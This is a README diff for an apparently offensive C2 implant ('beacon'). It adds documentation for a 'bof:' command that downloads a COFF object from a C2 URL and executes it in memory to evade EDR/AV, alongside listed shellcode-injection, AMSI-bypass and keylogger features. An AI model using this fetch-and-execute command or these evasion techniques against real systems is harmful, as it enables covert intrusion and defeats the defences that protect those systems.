

Before and after one commit to grisuno/beacon, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -112,6 +112,7 @@ rule hellbird_Runtime_Behavior {
  - **shellcode:** Download and execute a shellcode in memory. Supports multiple operative systems and formats msfvenom friendly (in windows the technique used is Early brid APC Injection).
  - **amsi:** Bypass AMSI (Anti-Malware Scan Interface) on Windows systems to evade detection by PowerShell, WMI, and other scripting engines.
  - **load_module:** load dll on Windows systems to evade detection loading in memory from an url
+ - **bof:** load COFF BOF object file on Windows systems to evade detection loading in memory from an url (COFFLoader3 inspired in [COFFLoader] (https://github.com/trustedsec/COFFLoader/) & [CoffeeLdr](https://github.com/Cracked5pider/CoffeeLdr)) (Like Cobalt Strike)
  - **terminate:** Terminates the implant or beacon, removing files and persistence mechanisms.
 
 ## 🔥 Modules
@@ -121,3 +122,52 @@ This beacon have load_module command you need pass a url to an dll module, for n
 - **Screenshot**: gen_dll_ss.sh
 - **Keylogger**: gen_key.sh
 - **Stealth Command**: gen_module.sh
+
+## 🚀 Feature: bof: — Execute COFF BOF Objects In-Memory (Cobalt Strike Style)
+
+Evade EDR/AV detection by loading and executing position-independent BOF (Binary Object File) payloads directly from a remote URL — without touching disk, without LoadLibrary, and without traditional PE loaders.
+
+This feature is inspired by — but goes beyond — industry-standard tools like TrustedSec’s COFFLoader and CoffeeLdr . It’s engineered for stealth, reliability, and deep Windows internals compliance.
+
+### 🎯 How It Works — The Engineering Breakdown
+1. Command Syntax
+
+```bash
+bof:http://your-c2.com/payload.x64.o [optional_args]
+```
+- Downloads the raw .o (COFF) file over HTTP(S).
+- Parses the COFF structure in-memory.
+- Maps sections (.text, .rdata, .pdata, etc.) into PAGE_EXECUTE_READWRITE regions.
+- Applies x64 relocations (ADDR64, REL32, REL32_1-5, etc.) with trampoline generation for out-of-range jumps.
+- Resolves external symbols (e.g., BeaconPrintf, GetModuleHandleA, CoInitializeEx) via a precomputed DJB2 hash table.
+- Executes the target function (usually go) with aligned stack and proper calling convention (ms_abi).
+
+### 2. Why COFF?
+
+- No PE Headers: Avoids LoadLibrary and module list enumeration.
+- No Imports Section: Symbols are resolved manually via hash — invisible to static analysis.
+- Position Independent: Code can be relocated anywhere in memory.
+- Cobalt Strike Compatible: BOFs compiled with x86_64-w64-mingw32-gcc -c -fPIC work out-of-the-box.
+
+### 3. Symbol Resolution — The Heart of the System
+Your BOF doesn’t call GetModuleHandleA directly — it calls __imp_GetModuleHandleA, a thunk pointer that must be patched at load time.
+
+### ✅ Our loader does this correctly by:
+
+- Including both versions in the symbol hash table:
+
+```c
+{ 0x3EB5B2FB, (void*)&__imp_GetModuleHandleA }, // "__imp_GetModuleHandleA"
+{ 0x3EB5B2FB, (void*)GetModuleHandleA         }, // "GetModuleHandleA" (fallback)
+```
+- Using extern FARPROC __imp_* in BOF source code to force correct linking.
+- Validating pointer sanity (> 0x10000) before execution.
+
+### 4. Memory & Security Engineering
+- RWX Pages: Sections are mapped as PAGE_EXECUTE_READWRITE during relocation, then optionally protected.
+- Trampolines: Auto-generated for REL32 calls that exceed 2GB range — no manual assembly required.
+- Stack Alignment: The call_go_aligned wrapper ensures 16-byte stack alignment before BOF entry.
+- No CRT: Zero dependency on msvcrt.dll — uses only WinAPI and Beacon API.
+
+### Built-in verbose logging lets you trace every step:
+
````
Also changed, not shown: other parts of README.md (+59 -0 lines).
